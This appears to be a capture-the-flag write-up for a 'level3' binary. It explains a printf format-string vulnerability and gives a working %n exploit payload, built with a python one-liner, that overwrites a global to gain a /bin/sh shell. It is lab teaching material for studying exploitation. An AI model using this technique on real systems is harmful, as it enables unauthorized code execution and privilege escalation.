 # LEVEL3

## EXPLANATIONS
### BINARY BEHAVIOR
- function \<v\> called from main  
    -> call to fgets with a maximum of 512 read on stdin and put in buf  
    -> call to printf with buf on first arg(format string)  
    -> cmp between string in datasection and 0x40

    ---> If equal, we see the string in 0x8048600 that we succeed, then a syscall on /bin/sh is made.

### EXPLOI STRATEGY

Our goal is to have 0x40 (64 in base 10) inside this memory area.

- We are going to exploit the format string printf with the identifier %n that allow us to write a value in memory  
- we write in the buffer :  
    - string address in which to write 0x40  
    - %60x  
    - %4\$n

### RUN COMMAND
```
python -c "print('\x08\x04\x98\x8c'[::-1] + '%60x' + '%4\$n')" > /tmp/exploit_string
cat /tmp/exploit_string - | /home/user/level3/level3
```